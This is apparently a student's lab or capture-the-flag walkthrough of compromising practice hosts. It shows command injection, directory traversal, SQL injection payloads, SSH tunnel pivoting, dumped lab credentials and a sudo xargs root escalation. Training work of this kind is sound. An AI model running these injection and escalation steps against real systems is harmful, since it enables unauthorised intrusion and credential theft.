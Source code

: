HAST-006-M
97dGQEcQWgSxAzo
base64 and rot13 encoding throughout this module
linux - 10.50.31.3
windows - 10.50.44.112

BOX1 - 10.50.41.56

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|   /robots.txt: Robots file
|   /images/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|_  /share/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'

http://10.50.41.56/Onlinetools/tools.php
select story to read is susceptible to command injection
opened the Possible_end.txt to find middle name of President

http://10.50.41.56/share/Untitled_Diagram.png
see network map
192.168.28.0/27
192.168.28.160/27

by doing ";uname -r" the kernel version is  4.15.0-88-generic 

ls -lisa /var/www/html we see there are a total of 5 directoriess
total 36 drwxr-xr-x 2 root root 4096 Dec 9 2021 Onlinetools 
-rw-r--r-- 1 root root 2806 Nov 23 2021 PE2_style.css 
drwxr-xr-x 2 root root 4096 Dec 9 2021 images 
-rw-r--r-- 1 root root 5448 Nov 23 2021 index.html 
drwxr-xr-x 3 root root 4096 Dec 9 2021 newtest 
-rw-r--r-- 1 root root 38 Nov 23 2021 robots.txt 
drwxr-xr-x 2 root root 4096 Dec 9 2021 share 
drwxr-xr-x 2 root root 4096 Oct 16 02:41 stories
drwxr-xr-x 2 root root 4096 Oct 16 02:41 stories


cat /etc/passwd found comment and home directory to perform ssh key using command injection:
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
www-data:x:33:33:ApjxpkHuatfcMiuWuxdh:/var/www:/bin/sh 
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash 
openupthedoor:x:1001:1001::/home/openupthedoor:/bin/bash

total 12 drwxrwxr-x 3 root www-data 4096 Dec 9 2021 . 
drwxr-xr-x 14 root root 4096 Dec 9 2021 .. 
drwxr-xr-x 7 root root 4096 Dec 9 2021 html

got on box through a MS tunnel ssh -MS /tmp/mind www-data@10.50.41.56

www-data@ministry-defense-19:~$ for i in {1..254}; do (ping -c 1 192.168.28.$i | grep "bytes from" &); done
64 bytes from 192.168.28.30: icmp_seq=1 ttl=64 time=0.573 ms (IGNORE)
64 bytes from 192.168.28.177: icmp_seq=1 ttl=63 time=1.58 ms
64 bytes from 192.168.28.182: icmp_seq=1 ttl=63 time=2.04 ms
64 bytes from 192.168.28.190: icmp_seq=1 ttl=64 time=0.360 ms (IGNORE)

set up a dynamic tunnel 
ssh -S /tmp/mind mind -O forward -D9050

use proxychains nmap to find ports open on new ips 
`student@lin-ops:~$ proxychains nmap -T4 -Pn -sT -v 192.168.28.177,182`

Nmap scan report for 192.168.28.177
Host is up (0.0015s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh

Nmap scan report for 192.168.28.182
Host is up (0.0014s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

lets look at port 80 on .182
Nmap scan report for 192.168.28.182
Host is up (0.0060s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|   /login/: Login page
|   /robots.txt: Robots file
|_  /images/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'

student@lin-ops:~/.ssh$ ssh -S /tmp/mind mind -O forward -L 1500:192.168.28.182:80
launch browser

http://127.0.0.1:1500/Onlinetools/lookup.php? susceptible to directory traversal
../../../../etc/hosts
we find that this device can talk to Defence_Nix1 and find host name resolution question 


http://127.0.0.1:1500/login/loginin.html vulnerable to sql injection
tom' or 1='1
Array
(
    [0] => Msmith
    [name] => Msmith
    [1] => Squanchy
    [password] => Squanchy
)
1Array
(
    [0] => Fpalic
    [name] => Fpalic
    [1] => Birdperson
    [password] => Birdperson
)
1Array
(
    [0] => Kmichae
    [name] => Kmichae
    [1] => MrMeeseeks
    [password] => MrMeeseeks
)

using hyperlink in inital page led to this:
http://127.0.0.1:1500/forces/forcespick.php?Locations=6%20or%201=1
which is suceptible to sql injection

un:Rsanch        pwd:ScaryTerry
un:Msmith        pwd:Squanchy
un:Fpalic        pwd:Birdperson
un:Kmichae       pwd:MrMeeseeks

lets try to brute force either the .177 or .182

student@lin-ops:~/.ssh$ ssh -S /tmp/mind mind -O forward -L 1501:192.168.28.182:22
student@lin-ops:~/.ssh$ ssh -S /tmp/mind mind -O forward -L 1502:192.168.28.177:22

student@lin-ops:~$ ssh Fpalic@127.0.0.1 -p 1502
worked for .177
is the only one that works thus far

sudo -l see can take advantage of xargs
$ sudo xargs -a /root /bin/bash istantly became root hehe

ss -ntlpu found weird 21254 port
tcp      LISTEN     0          1                           0.0.0.0:21254              0.0.0.0:*        users:(("SecurityOnion",pid=1116,fd=3))                                                              
root@defense-nix1-19:/# cat /root/svch0st.sh 
find reference # and nc listener script as we see


